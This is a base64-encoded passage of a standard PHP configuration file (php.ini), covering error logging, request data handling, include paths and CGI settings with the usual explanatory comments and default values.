L3BocC5uZXQvbG9nLWVycm9ycy1tYXgtbGVuCmxvZ19lcnJvcnNfbWF4X2xlbiA9IDEwMjQKCjsgRG8gbm90IGxvZyByZXBlYXRlZCBtZXNzYWdlcy4gUmVwZWF0ZWQgZXJyb3JzIG11c3Qgb2NjdXIgaW4gc2FtZSBmaWxlIG9uIHNhbWUKOyBsaW5lIHVubGVzcyBpZ25vcmVfcmVwZWF0ZWRfc291cmNlIGlzIHNldCB0cnVlLgo7IGh0dHA6Ly9waHAubmV0L2lnbm9yZS1yZXBlYXRlZC1lcnJvcnMKaWdub3JlX3JlcGVhdGVkX2Vycm9ycyA9IE9mZgoKOyBJZ25vcmUgc291cmNlIG9mIG1lc3NhZ2Ugd2hlbiBpZ25vcmluZyByZXBlYXRlZCBtZXNzYWdlcy4gV2hlbiB0aGlzIHNldHRpbmcKOyBpcyBPbiB5b3Ugd2lsbCBub3QgbG9nIGVycm9ycyB3aXRoIHJlcGVhdGVkIG1lc3NhZ2VzIGZyb20gZGlmZmVyZW50IGZpbGVzIG9yCjsgc291cmNlIGxpbmVzLgo7IGh0dHA6Ly9waHAubmV0L2lnbm9yZS1yZXBlYXRlZC1zb3VyY2UKaWdub3JlX3JlcGVhdGVkX3NvdXJjZSA9IE9mZgoKOyBJZiB0aGlzIHBhcmFtZXRlciBpcyBzZXQgdG8gT2ZmLCB0aGVuIG1lbW9yeSBsZWFrcyB3aWxsIG5vdCBiZSBzaG93biAob24KOyBzdGRvdXQgb3IgaW4gdGhlIGxvZykuIFRoaXMgaXMgb25seSBlZmZlY3RpdmUgaW4gYSBkZWJ1ZyBjb21waWxlLCBhbmQgaWYKOyBlcnJvciByZXBvcnRpbmcgaW5jbHVkZXMgRV9XQVJOSU5HIGluIHRoZSBhbGxvd2VkIGxpc3QKOyBodHRwOi8vcGhwLm5ldC9yZXBvcnQtbWVtbGVha3MKcmVwb3J0X21lbWxlYWtzID0gT24KCjsgVGhpcyBzZXR0aW5nIGlzIG9uIGJ5IGRlZmF1bHQuCjtyZXBvcnRfemVuZF9kZWJ1ZyA9IDAKCjsgU3RvcmUgdGhlIGxhc3QgZXJyb3Ivd2FybmluZyBtZXNzYWdlIGluICRwaHBfZXJyb3Jtc2cgKGJvb2xlYW4pLiBTZXR0aW5nIHRoaXMgdmFsdWUKOyB0byBPbiBjYW4gYXNzaXN0IGluIGRlYnVnZ2luZyBhbmQgaXMgYXBwcm9wcmlhdGUgZm9yIGRldmVsb3BtZW50IHNlcnZlcnMuIEl0IHNob3VsZAo7IGhvd2V2ZXIgYmUgZGlzYWJsZWQgb24gcHJvZHVjdGlvbiBzZXJ2ZXJzLgo7IFRoaXMgZGlyZWN0aXZlIGlzIERFUFJFQ0FURUQuCjsgRGVmYXVsdCBWYWx1ZTogT2ZmCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IE9mZgo7IFByb2R1Y3Rpb24gVmFsdWU6IE9mZgo7IGh0dHA6Ly9waHAubmV0L3RyYWNrLWVycm9ycwo7dHJhY2tfZXJyb3JzID0gT2ZmCgo7IFR1cm4gb2ZmIG5vcm1hbCBlcnJvciByZXBvcnRpbmcgYW5kIGVtaXQgWE1MLVJQQyBlcnJvciBYTUwKOyBodHRwOi8vcGhwLm5ldC94bWxycGMtZXJyb3JzCjt4bWxycGNfZXJyb3JzID0gMAoKOyBBbiBYTUwtUlBDIGZhdWx0Q29kZQo7eG1scnBjX2Vycm9yX251bWJlciA9IDAKCjsgV2hlbiBQSFAgZGlzcGxheXMgb3IgbG9ncyBhbiBlcnJvciwgaXQgaGFzIHRoZSBjYXBhYmlsaXR5IG9mIGZvcm1hdHRpbmcgdGhlCjsgZXJyb3IgbWVzc2FnZSBhcyBIVE1MIGZvciBlYXNpZXIgcmVhZGluZy4gVGhpcyBkaXJlY3RpdmUgY29udHJvbHMgd2hldGhlcgo7IHRoZSBlcnJvciBtZXNzYWdlIGlzIGZvcm1hdHRlZCBhcyBIVE1MIG9yIG5vdC4KOyBOb3RlOiBUaGlzIGRpcmVjdGl2ZSBpcyBoYXJkY29kZWQgdG8gT2ZmIGZvciB0aGUgQ0xJIFNBUEkKOyBodHRwOi8vcGhwLm5ldC9odG1sLWVycm9ycwo7aHRtbF9lcnJvcnMgPSBPbgoKOyBJZiBodG1sX2Vycm9ycyBpcyBzZXQgdG8gT24gKmFuZCogZG9jcmVmX3Jvb3QgaXMgbm90IGVtcHR5LCB0aGVuIFBIUAo7IHByb2R1Y2VzIGNsaWNrYWJsZSBlcnJvciBtZXNzYWdlcyB0aGF0IGRpcmVjdCB0byBhIHBhZ2UgZGVzY3JpYmluZyB0aGUgZXJyb3IKOyBvciBmdW5jdGlvbiBjYXVzaW5nIHRoZSBlcnJvciBpbiBkZXRhaWwuCjsgWW91IGNhbiBkb3dubG9hZCBhIGNvcHkgb2YgdGhlIFBIUCBtYW51YWwgZnJvbSBodHRwOi8vcGhwLm5ldC9kb2NzCjsgYW5kIGNoYW5nZSBkb2NyZWZfcm9vdCB0byB0aGUgYmFzZSBVUkwgb2YgeW91ciBsb2NhbCBjb3B5IGluY2x1ZGluZyB0aGUKOyBsZWFkaW5nICcvJy4gWW91IG11c3QgYWxzbyBzcGVjaWZ5IHRoZSBmaWxlIGV4dGVuc2lvbiBiZWluZyB1c2VkIGluY2x1ZGluZwo7IHRoZSBkb3QuIFBIUCdzIGRlZmF1bHQgYmVoYXZpb3IgaXMgdG8gbGVhdmUgdGhlc2Ugc2V0dGluZ3MgZW1wdHksIGluIHdoaWNoCjsgY2FzZSBubyBsaW5rcyB0byBkb2N1bWVudGF0aW9uIGFyZSBnZW5lcmF0ZWQuCjsgTm90ZTogTmV2ZXIgdXNlIHRoaXMgZmVhdHVyZSBmb3IgcHJvZHVjdGlvbiBib3hlcy4KOyBodHRwOi8vcGhwLm5ldC9kb2NyZWYtcm9vdAo7IEV4YW1wbGVzCjtkb2NyZWZfcm9vdCA9ICIvcGhwbWFudWFsLyIKCjsgaHR0cDovL3BocC5uZXQvZG9jcmVmLWV4dAo7ZG9jcmVmX2V4dCA9IC5odG1sCgo7IFN0cmluZyB0byBvdXRwdXQgYmVmb3JlIGFuIGVycm9yIG1lc3NhZ2UuIFBIUCdzIGRlZmF1bHQgYmVoYXZpb3IgaXMgdG8gbGVhdmUKOyB0aGlzIHNldHRpbmcgYmxhbmsuCjsgaHR0cDovL3BocC5uZXQvZXJyb3ItcHJlcGVuZC1zdHJpbmcKOyBFeGFtcGxlOgo7ZXJyb3JfcHJlcGVuZF9zdHJpbmcgPSAiPHNwYW4gc3R5bGU9J2NvbG9yOiAjZmYwMDAwJz4iCgo7IFN0cmluZyB0byBvdXRwdXQgYWZ0ZXIgYW4gZXJyb3IgbWVzc2FnZS4gUEhQJ3MgZGVmYXVsdCBiZWhhdmlvciBpcyB0byBsZWF2ZQo7IHRoaXMgc2V0dGluZyBibGFuay4KOyBodHRwOi8vcGhwLm5ldC9lcnJvci1hcHBlbmQtc3RyaW5nCjsgRXhhbXBsZToKO2Vycm9yX2FwcGVuZF9zdHJpbmcgPSAiPC9zcGFuPiIKCjsgTG9nIGVycm9ycyB0byBzcGVjaWZpZWQgZmlsZS4gUEhQJ3MgZGVmYXVsdCBiZWhhdmlvciBpcyB0byBsZWF2ZSB0aGlzIHZhbHVlCjsgZW1wdHkuCjsgaHR0cDovL3BocC5uZXQvZXJyb3ItbG9nCjsgRXhhbXBsZToKO2Vycm9yX2xvZyA9IHBocF9lcnJvcnMubG9nCjsgTG9nIGVycm9ycyB0byBzeXNsb2cgKEV2ZW50IExvZyBvbiBXaW5kb3dzKS4KO2Vycm9yX2xvZyA9IHN5c2xvZwoKOyBUaGUgc3lzbG9nIGlkZW50IGlzIGEgc3RyaW5nIHdoaWNoIGlzIHByZXBlbmRlZCB0byBldmVyeSBtZXNzYWdlIGxvZ2dlZAo7IHRvIHN5c2xvZy4gT25seSB1c2VkIHdoZW4gZXJyb3JfbG9nIGlzIHNldCB0byBzeXNsb2cuCjtzeXNsb2cuaWRlbnQgPSBwaHAKCjsgVGhlIHN5c2xvZyBmYWNpbGl0eSBpcyB1c2VkIHRvIHNwZWNpZnkgd2hhdCB0eXBlIG9mIHByb2dyYW0gaXMgbG9nZ2luZwo7IHRoZSBtZXNzYWdlLiBPbmx5IHVzZWQgd2hlbiBlcnJvcl9sb2cgaXMgc2V0IHRvIHN5c2xvZy4KO3N5c2xvZy5mYWNpbGl0eSA9IHVzZXIKCjsgU2V0IHRoaXMgdG8gZGlzYWJsZSBmaWx0ZXJpbmcgY29udHJvbCBjaGFyYWN0ZXJzICh0aGUgZGVmYXVsdCkuCjsgU29tZSBsb2dnZXJzIG9ubHkgYWNjZXB0IE5WVC1BU0NJSSwgb3RoZXJzIGFjY2VwdCBhbnl0aGluZyB0aGF0J3Mgbm90CjsgY29udHJvbCBjaGFyYWN0ZXJzLiBJZiB5b3VyIGxvZ2dlciBhY2NlcHRzIGV2ZXJ5dGhpbmcsIHRoZW4gbm8gZmlsdGVyaW5nCjsgaXMgbmVlZGVkIGF0IGFsbC4KOyBBbGxvd2VkIHZhbHVlcyBhcmU6CjsgICBhc2NpaSAoYWxsIHByaW50YWJsZSBBU0NJSSBjaGFyYWN0ZXJzIGFuZCBOTCkKOyAgIG5vLWN0cmwgKGFsbCBjaGFyYWN0ZXJzIGV4Y2VwdCBjb250cm9sIGNoYXJhY3RlcnMpCjsgICBhbGwgKGFsbCBjaGFyYWN0ZXJzKQo7ICAgcmF3IChsaWtlICJhbGwiLCBidXQgbWVzc2FnZXMgYXJlIG5vdCBzcGxpdCBhdCBuZXdsaW5lcykKOyBodHRwOi8vcGhwLm5ldC9zeXNsb2cuZmlsdGVyCjtzeXNsb2cuZmlsdGVyID0gYXNjaWkKCjt3aW5kb3dzLnNob3dfY3J0X3dhcm5pbmcKOyBEZWZhdWx0IHZhbHVlOiAwCjsgRGV2ZWxvcG1lbnQgdmFsdWU6IDAKOyBQcm9kdWN0aW9uIHZhbHVlOiAwCgo7Ozs7Ozs7Ozs7Ozs7Ozs7Owo7IERhdGEgSGFuZGxpbmcgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7OwoKOyBUaGUgc2VwYXJhdG9yIHVzZWQgaW4gUEhQIGdlbmVyYXRlZCBVUkxzIHRvIHNlcGFyYXRlIGFyZ3VtZW50cy4KOyBQSFAncyBkZWZhdWx0IHNldHRpbmcgaXMgIiYiLgo7IGh0dHA6Ly9waHAubmV0L2FyZy1zZXBhcmF0b3Iub3V0cHV0CjsgRXhhbXBsZToKO2FyZ19zZXBhcmF0b3Iub3V0cHV0ID0gIiZhbXA7IgoKOyBMaXN0IG9mIHNlcGFyYXRvcihzKSB1c2VkIGJ5IFBIUCB0byBwYXJzZSBpbnB1dCBVUkxzIGludG8gdmFyaWFibGVzLgo7IFBIUCdzIGRlZmF1bHQgc2V0dGluZyBpcyAiJiIuCjsgTk9URTogRXZlcnkgY2hhcmFjdGVyIGluIHRoaXMgZGlyZWN0aXZlIGlzIGNvbnNpZGVyZWQgYXMgc2VwYXJhdG9yIQo7IGh0dHA6Ly9waHAubmV0L2FyZy1zZXBhcmF0b3IuaW5wdXQKOyBFeGFtcGxlOgo7YXJnX3NlcGFyYXRvci5pbnB1dCA9ICI7JiIKCjsgVGhpcyBkaXJlY3RpdmUgZGV0ZXJtaW5lcyB3aGljaCBzdXBlciBnbG9iYWwgYXJyYXlzIGFyZSByZWdpc3RlcmVkIHdoZW4gUEhQCjsgc3RhcnRzIHVwLiBHLFAsQyxFICYgUyBhcmUgYWJicmV2aWF0aW9ucyBmb3IgdGhlIGZvbGxvd2luZyByZXNwZWN0aXZlIHN1cGVyCjsgZ2xvYmFsczogR0VULCBQT1NULCBDT09LSUUsIEVOViBhbmQgU0VSVkVSLiBUaGVyZSBpcyBhIHBlcmZvcm1hbmNlIHBlbmFsdHkKOyBwYWlkIGZvciB0aGUgcmVnaXN0cmF0aW9uIG9mIHRoZXNlIGFycmF5cyBhbmQgYmVjYXVzZSBFTlYgaXMgbm90IGFzIGNvbW1vbmx5CjsgdXNlZCBhcyB0aGUgb3RoZXJzLCBFTlYgaXMgbm90IHJlY29tbWVuZGVkIG9uIHByb2R1Y3Rpb25zIHNlcnZlcnMuIFlvdQo7IGNhbiBzdGlsbCBnZXQgYWNjZXNzIHRvIHRoZSBlbnZpcm9ubWVudCB2YXJpYWJsZXMgdGhyb3VnaCBnZXRlbnYoKSBzaG91bGQgeW91CjsgbmVlZCB0by4KOyBEZWZhdWx0IFZhbHVlOiAiRUdQQ1MiCjsgRGV2ZWxvcG1lbnQgVmFsdWU6ICJHUENTIgo7IFByb2R1Y3Rpb24gVmFsdWU6ICJHUENTIjsKOyBodHRwOi8vcGhwLm5ldC92YXJpYWJsZXMtb3JkZXIKdmFyaWFibGVzX29yZGVyID0gIkdQQ1MiCgo7IFRoaXMgZGlyZWN0aXZlIGRldGVybWluZXMgd2hpY2ggc3VwZXIgZ2xvYmFsIGRhdGEgKEcsUCAmIEMpIHNob3VsZCBiZQo7IHJlZ2lzdGVyZWQgaW50byB0aGUgc3VwZXIgZ2xvYmFsIGFycmF5IFJFUVVFU1QuIElmIHNvLCBpdCBhbHNvIGRldGVybWluZXMKOyB0aGUgb3JkZXIgaW4gd2hpY2ggdGhhdCBkYXRhIGlzIHJlZ2lzdGVyZWQuIFRoZSB2YWx1ZXMgZm9yIHRoaXMgZGlyZWN0aXZlCjsgYXJlIHNwZWNpZmllZCBpbiB0aGUgc2FtZSBtYW5uZXIgYXMgdGhlIHZhcmlhYmxlc19vcmRlciBkaXJlY3RpdmUsCjsgRVhDRVBUIG9uZS4gTGVhdmluZyB0aGlzIHZhbHVlIGVtcHR5IHdpbGwgY2F1c2UgUEhQIHRvIHVzZSB0aGUgdmFsdWUgc2V0CjsgaW4gdGhlIHZhcmlhYmxlc19vcmRlciBkaXJlY3RpdmUuIEl0IGRvZXMgbm90IG1lYW4gaXQgd2lsbCBsZWF2ZSB0aGUgc3VwZXIKOyBnbG9iYWxzIGFycmF5IFJFUVVFU1QgZW1wdHkuCjsgRGVmYXVsdCBWYWx1ZTogTm9uZQo7IERldmVsb3BtZW50IFZhbHVlOiAiR1AiCjsgUHJvZHVjdGlvbiBWYWx1ZTogIkdQIgo7IGh0dHA6Ly9waHAubmV0L3JlcXVlc3Qtb3JkZXIKcmVxdWVzdF9vcmRlciA9ICJHUCIKCjsgVGhpcyBkaXJlY3RpdmUgZGV0ZXJtaW5lcyB3aGV0aGVyIFBIUCByZWdpc3RlcnMgJGFyZ3YgJiAkYXJnYyBlYWNoIHRpbWUgaXQKOyBydW5zLiAkYXJndiBjb250YWlucyBhbiBhcnJheSBvZiBhbGwgdGhlIGFyZ3VtZW50cyBwYXNzZWQgdG8gUEhQIHdoZW4gYSBzY3JpcHQKOyBpcyBpbnZva2VkLiAkYXJnYyBjb250YWlucyBhbiBpbnRlZ2VyIHJlcHJlc2VudGluZyB0aGUgbnVtYmVyIG9mIGFyZ3VtZW50cwo7IHRoYXQgd2VyZSBwYXNzZWQgd2hlbiB0aGUgc2NyaXB0IHdhcyBpbnZva2VkLiBUaGVzZSBhcnJheXMgYXJlIGV4dHJlbWVseQo7IHVzZWZ1bCB3aGVuIHJ1bm5pbmcgc2NyaXB0cyBmcm9tIHRoZSBjb21tYW5kIGxpbmUuIFdoZW4gdGhpcyBkaXJlY3RpdmUgaXMKOyBlbmFibGVkLCByZWdpc3RlcmluZyB0aGVzZSB2YXJpYWJsZXMgY29uc3VtZXMgQ1BVIGN5Y2xlcyBhbmQgbWVtb3J5IGVhY2ggdGltZQo7IGEgc2NyaXB0IGlzIGV4ZWN1dGVkLiBGb3IgcGVyZm9ybWFuY2UgcmVhc29ucywgdGhpcyBmZWF0dXJlIHNob3VsZCBiZSBkaXNhYmxlZAo7IG9uIHByb2R1Y3Rpb24gc2VydmVycy4KOyBOb3RlOiBUaGlzIGRpcmVjdGl2ZSBpcyBoYXJkY29kZWQgdG8gT24gZm9yIHRoZSBDTEkgU0FQSQo7IERlZmF1bHQgVmFsdWU6IE9uCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IE9mZgo7IFByb2R1Y3Rpb24gVmFsdWU6IE9mZgo7IGh0dHA6Ly9waHAubmV0L3JlZ2lzdGVyLWFyZ2MtYXJndgpyZWdpc3Rlcl9hcmdjX2FyZ3YgPSBPZmYKCjsgV2hlbiBlbmFibGVkLCB0aGUgRU5WLCBSRVFVRVNUIGFuZCBTRVJWRVIgdmFyaWFibGVzIGFyZSBjcmVhdGVkIHdoZW4gdGhleSdyZQo7IGZpcnN0IHVzZWQgKEp1c3QgSW4gVGltZSkgaW5zdGVhZCBvZiB3aGVuIHRoZSBzY3JpcHQgc3RhcnRzLiBJZiB0aGVzZQo7IHZhcmlhYmxlcyBhcmUgbm90IHVzZWQgd2l0aGluIGEgc2NyaXB0LCBoYXZpbmcgdGhpcyBkaXJlY3RpdmUgb24gd2lsbCByZXN1bHQKOyBpbiBhIHBlcmZvcm1hbmNlIGdhaW4uIFRoZSBQSFAgZGlyZWN0aXZlIHJlZ2lzdGVyX2FyZ2NfYXJndiBtdXN0IGJlIGRpc2FibGVkCjsgZm9yIHRoaXMgZGlyZWN0aXZlIHRvIGhhdmUgYW55IGVmZmVjdC4KOyBodHRwOi8vcGhwLm5ldC9hdXRvLWdsb2JhbHMtaml0CmF1dG9fZ2xvYmFsc19qaXQgPSBPbgoKOyBXaGV0aGVyIFBIUCB3aWxsIHJlYWQgdGhlIFBPU1QgZGF0YS4KOyBUaGlzIG9wdGlvbiBpcyBlbmFibGVkIGJ5IGRlZmF1bHQuCjsgTW9zdCBsaWtlbHksIHlvdSB3b24ndCB3YW50IHRvIGRpc2FibGUgdGhpcyBvcHRpb24gZ2xvYmFsbHkuIEl0IGNhdXNlcyAkX1BPU1QKOyBhbmQgJF9GSUxFUyB0byBhbHdheXMgYmUgZW1wdHk7IHRoZSBvbmx5IHdheSB5b3Ugd2lsbCBiZSBhYmxlIHRvIHJlYWQgdGhlCjsgUE9TVCBkYXRhIHdpbGwgYmUgdGhyb3VnaCB0aGUgcGhwOi8vaW5wdXQgc3RyZWFtIHdyYXBwZXIuIFRoaXMgY2FuIGJlIHVzZWZ1bAo7IHRvIHByb3h5IHJlcXVlc3RzIG9yIHRvIHByb2Nlc3MgdGhlIFBPU1QgZGF0YSBpbiBhIG1lbW9yeSBlZmZpY2llbnQgZmFzaGlvbi4KOyBodHRwOi8vcGhwLm5ldC9lbmFibGUtcG9zdC1kYXRhLXJlYWRpbmcKO2VuYWJsZV9wb3N0X2RhdGFfcmVhZGluZyA9IE9mZgoKOyBNYXhpbXVtIHNpemUgb2YgUE9TVCBkYXRhIHRoYXQgUEhQIHdpbGwgYWNjZXB0Lgo7IEl0cyB2YWx1ZSBtYXkgYmUgMCB0byBkaXNhYmxlIHRoZSBsaW1pdC4gSXQgaXMgaWdub3JlZCBpZiBQT1NUIGRhdGEgcmVhZGluZwo7IGlzIGRpc2FibGVkIHRocm91Z2ggZW5hYmxlX3Bvc3RfZGF0YV9yZWFkaW5nLgo7IGh0dHA6Ly9waHAubmV0L3Bvc3QtbWF4LXNpemUKcG9zdF9tYXhfc2l6ZSA9IDhNCgo7IEF1dG9tYXRpY2FsbHkgYWRkIGZpbGVzIGJlZm9yZSBQSFAgZG9jdW1lbnQuCjsgaHR0cDovL3BocC5uZXQvYXV0by1wcmVwZW5kLWZpbGUKYXV0b19wcmVwZW5kX2ZpbGUgPQoKOyBBdXRvbWF0aWNhbGx5IGFkZCBmaWxlcyBhZnRlciBQSFAgZG9jdW1lbnQuCjsgaHR0cDovL3BocC5uZXQvYXV0by1hcHBlbmQtZmlsZQphdXRvX2FwcGVuZF9maWxlID0KCjsgQnkgZGVmYXVsdCwgUEhQIHdpbGwgb3V0cHV0IGEgbWVkaWEgdHlwZSB1c2luZyB0aGUgQ29udGVudC1UeXBlIGhlYWRlci4gVG8KOyBkaXNhYmxlIHRoaXMsIHNpbXBseSBzZXQgaXQgdG8gYmUgZW1wdHkuCjsKOyBQSFAncyBidWlsdC1pbiBkZWZhdWx0IG1lZGlhIHR5cGUgaXMgc2V0IHRvIHRleHQvaHRtbC4KOyBodHRwOi8vcGhwLm5ldC9kZWZhdWx0LW1pbWV0eXBlCmRlZmF1bHRfbWltZXR5cGUgPSAidGV4dC9odG1sIgoKOyBQSFAncyBkZWZhdWx0IGNoYXJhY3RlciBzZXQgaXMgc2V0IHRvIFVURi04Lgo7IGh0dHA6Ly9waHAubmV0L2RlZmF1bHQtY2hhcnNldApkZWZhdWx0X2NoYXJzZXQgPSAiVVRGLTgiCgo7IFBIUCBpbnRlcm5hbCBjaGFyYWN0ZXIgZW5jb2RpbmcgaXMgc2V0IHRvIGVtcHR5Lgo7IElmIGVtcHR5LCBkZWZhdWx0X2NoYXJzZXQgaXMgdXNlZC4KOyBodHRwOi8vcGhwLm5ldC9pbnRlcm5hbC1lbmNvZGluZwo7aW50ZXJuYWxfZW5jb2RpbmcgPQoKOyBQSFAgaW5wdXQgY2hhcmFjdGVyIGVuY29kaW5nIGlzIHNldCB0byBlbXB0eS4KOyBJZiBlbXB0eSwgZGVmYXVsdF9jaGFyc2V0IGlzIHVzZWQuCjsgaHR0cDovL3BocC5uZXQvaW5wdXQtZW5jb2RpbmcKO2lucHV0X2VuY29kaW5nID0KCjsgUEhQIG91dHB1dCBjaGFyYWN0ZXIgZW5jb2RpbmcgaXMgc2V0IHRvIGVtcHR5Lgo7IElmIGVtcHR5LCBkZWZhdWx0X2NoYXJzZXQgaXMgdXNlZC4KOyBTZWUgYWxzbyBvdXRwdXRfYnVmZmVyLgo7IGh0dHA6Ly9waHAubmV0L291dHB1dC1lbmNvZGluZwo7b3V0cHV0X2VuY29kaW5nID0KCjs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7OzsKOyBQYXRocyBhbmQgRGlyZWN0b3JpZXMgOwo7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Ozs7Cgo7IFVOSVg6ICIvcGF0aDE6L3BhdGgyIgo7aW5jbHVkZV9wYXRoID0gIi46L3Vzci9zaGFyZS9waHAiCjsKOyBXaW5kb3dzOiAiXHBhdGgxO1xwYXRoMiIKO2luY2x1ZGVfcGF0aCA9ICIuO2M6XHBocFxpbmNsdWRlcyIKOwo7IFBIUCdzIGRlZmF1bHQgc2V0dGluZyBmb3IgaW5jbHVkZV9wYXRoIGlzICIuOy9wYXRoL3RvL3BocC9wZWFyIgo7IGh0dHA6Ly9waHAubmV0L2luY2x1ZGUtcGF0aAoKOyBUaGUgcm9vdCBvZiB0aGUgUEhQIHBhZ2VzLCB1c2VkIG9ubHkgaWYgbm9uZW1wdHkuCjsgaWYgUEhQIHdhcyBub3QgY29tcGlsZWQgd2l0aCBGT1JDRV9SRURJUkVDVCwgeW91IFNIT1VMRCBzZXQgZG9jX3Jvb3QKOyBpZiB5b3UgYXJlIHJ1bm5pbmcgcGhwIGFzIGEgQ0dJIHVuZGVyIGFueSB3ZWIgc2VydmVyIChvdGhlciB0aGFuIElJUykKOyBzZWUgZG9jdW1lbnRhdGlvbiBmb3Igc2VjdXJpdHkgaXNzdWVzLiAgVGhlIGFsdGVybmF0ZSBpcyB0byB1c2UgdGhlCjsgY2dpLmZvcmNlX3JlZGlyZWN0IGNvbmZpZ3VyYXRpb24gYmVsb3cKOyBodHRwOi8vcGhwLm5ldC9kb2Mtcm9vdApkb2Nfcm9vdCA9Cgo7IFRoZSBkaXJlY3RvcnkgdW5kZXIgd2hpY2ggUEhQIG9wZW5zIHRoZSBzY3JpcHQgdXNpbmcgL351c2VybmFtZSB1c2VkIG9ubHkKOyBpZiBub25lbXB0eS4KOyBodHRwOi8vcGhwLm5ldC91c2VyLWRpcgp1c2VyX2RpciA9Cgo7IERpcmVjdG9yeSBpbiB3aGljaCB0aGUgbG9hZGFibGUgZXh0ZW5zaW9ucyAobW9kdWxlcykgcmVzaWRlLgo7IGh0dHA6Ly9waHAubmV0L2V4dGVuc2lvbi1kaXIKO2V4dGVuc2lvbl9kaXIgPSAiLi8iCjsgT24gd2luZG93czoKO2V4dGVuc2lvbl9kaXIgPSAiZXh0IgoKOyBEaXJlY3Rvcnkgd2hlcmUgdGhlIHRlbXBvcmFyeSBmaWxlcyBzaG91bGQgYmUgcGxhY2VkLgo7IERlZmF1bHRzIHRvIHRoZSBzeXN0ZW0gZGVmYXVsdCAoc2VlIHN5c19nZXRfdGVtcF9kaXIpCjtzeXNfdGVtcF9kaXIgPSAiL3RtcCIKCjsgV2hldGhlciBvciBub3QgdG8gZW5hYmxlIHRoZSBkbCgpIGZ1bmN0aW9uLiAgVGhlIGRsKCkgZnVuY3Rpb24gZG9lcyBOT1Qgd29yawo7IHByb3Blcmx5IGluIG11bHRpdGhyZWFkZWQgc2VydmVycywgc3VjaCBhcyBJSVMgb3IgWmV1cywgYW5kIGlzIGF1dG9tYXRpY2FsbHkKOyBkaXNhYmxlZCBvbiB0aGVtLgo7IGh0dHA6Ly9waHAubmV0L2VuYWJsZS1kbAplbmFibGVfZGwgPSBPZmYKCjsgY2dpLmZvcmNlX3JlZGlyZWN0IGlzIG5lY2Vzc2FyeSB0byBwcm92aWRlIHNlY3VyaXR5IHJ1bm5pbmcgUEhQIGFzIGEgQ0dJIHVuZGVyCjsgbW9zdCB3ZWIgc2VydmVycy4gIExlZnQgdW5kZWZpbmVkLCBQSFAgdHVybnMgdGhpcyBvbiBieSBkZWZhdWx0LiAgWW91IGNhbgo7IHR1cm4gaXQgb2ZmIGhlcmUgQVQgWU9VUiBPV04gUklTSwo7ICoqWW91IENBTiBzYWZlbHkgdHVybiB0aGlzIG9mZiBmb3IgSUlTLCBpbiBmYWN0LCB5b3UgTVVTVC4qKgo7IGh0dHA6Ly9waHAubmV0L2NnaS5mb3JjZS1yZWRpcmVjdAo7Y2dpLmZvcmNlX3JlZGlyZWN0ID0gMQoKOyBpZiBjZ2kubnBoIGlzIGVuYWJsZWQgaXQgd2lsbCBmb3JjZSBjZ2kgdG8gYWx3YXlzIHNlbnQgU3RhdHVzOiAyMDAgd2l0aAo7IGV2ZXJ5IHJlcXVlc3QuIFBIUCdzIGRlZmF1bHQgYmVoYXZpb3IgaXMgdG8gZGlzYWJsZSB0aGlzIGZlYXR1cmUuCjtjZ2kubnBoID0gMQoKOyBpZiBjZ2kuZm9yY2VfcmVkaXJlY3QgaXMgdHVybmVkIG9uLCBhbmQgeW91IGFyZSBub3QgcnVubmluZyB1bmRlciBBcGFjaGUgb3IgTmV0c2NhcGUKOyAoaVBsYW5ldCkgd2ViIHNlcnZlcnMsIHlvdSBNQVkgbmVlZCB0byBzZXQgYW4gZW52aXJvbm1lbnQgdmFyaWFibGUgbmFtZSB0aGF0IFBIUAo7IHdpbGwgbG9vayBmb3IgdG8ga25vdyBpdCBpcyBPSyB0byBjb250aW51ZSBleGVjdXRpb24uICBTZXR0aW5nIHRoaXMgdmFyaWFibGUgTUFZCjsgY2F1c2Ugc2VjdXJpdHkgaXNzdWVzLCBLTk9XIFdIQVQgWU9VIEFSRSBET0lORyBGSVJTVC4KOyBodHRwOi8vcGhwLm5ldC9jZ2kucmVkaXJlY3Qtc3RhdHVzLWVudgo7Y2dpLnJlZGlyZWN0X3N0YXR1c19lbnYgPQoKOyBjZ2kuZml4X3BhdGhpbmZvIHByb3ZpZGVzICpyZWFsKiBQQVRIX0lORk8vUEFUSF9UUkFOU0xBVEVEIHN1cHBvcnQgZm9yIENHSS4gIFBIUCdzCjsgcHJldmlvdXMgYmVoYXZpb3VyIHdhcyB0byBzZXQgUEFUSF9UUkFOU0xBVEVEIHRvIFNDUklQVF9GSUxFTkFNRSwgYW5kIHRvIG5vdCBncm9rCjsgd2hhdCBQQVRIX0lORk8gaXMuICBGb3IgbW9yZSBpbmZvcm1hdGlvbiBvbiBQQVRIX0lORk8sIHNlZSB0aGUgY2dpIHNwZWNzLiAgU2V0dGluZwo7IHRoaXMgdG8gMSB3aWxsIGNhdXNlIFBIUCBDR0kgdG8gZml4IGl0cyBwYXRocyB0byBjb25mb3JtIHRvIHRoZSBzcGVjLiAgQSBzZXR0aW5nCjsgb2YgemVybyBjYXVzZXMgUEhQIHRvIGJlaGF2ZSBhcyBiZWZvcmUuICBEZWZhdWx0IGlzIDEuICBZb3Ugc2hvdWxkIGZpeCB5b3VyIHNjcmlwdHMKOyB0byB1c2UgU0NSSVBUX0ZJTEVOQU1FIHJhdGhlciB0aGFuIFBBVEhfVFJBTlNMQVRFRC4KOyBodHRwOi8vcGhwLm5ldC9jZ2kuZml4LXBhdGhpbmZvCjtjZ2kuZml4X3BhdGhpbmZvPTEKCjsgaWYgY2dpLmRpc2NhcmRfcGF0aCBpcyBlbmFibGVkLCB0aGUgUEhQIENHSSBiaW5hcnkgY2FuIHNhZmVseSBiZSBwbGFjZWQgb3V0c2lkZQo7IG9mIHRoZSB3ZWIgdHJlZSBhbmQgcGVvcGxlIHdpbGwgbm90IGJlIGFibGUgdG8gY2lyY3VtdmVudCAuaHRhY2Nlc3Mgc2VjdXJpdHkuCjtjZ2kuZGlzY2FyZF9wYXRoPTEKCjsgRmFzdENHSSB1bmRlciBJSVMgc3VwcG9ydHMgdGhlIGFiaWxpdHkgdG8gaW1wZXJzb25hdGUKOyBzZWN1cml0eSB0b2tlbnMgb2YgdGhlIGNhbGxpbmcgY2xpZW50LiAgVGhpcyBhbGxvd3MgSUlTIHRvIGRlZmluZSB0aGUKOyBzZWN1cml0eSBjb250ZXh0IHRoYXQgdGhlIHJlcXVlc3QgcnVucyB1bmRlci4gIG1vZF9mYXN0Y2dpIHVuZGVyIEFwYWNoZQo7IGRv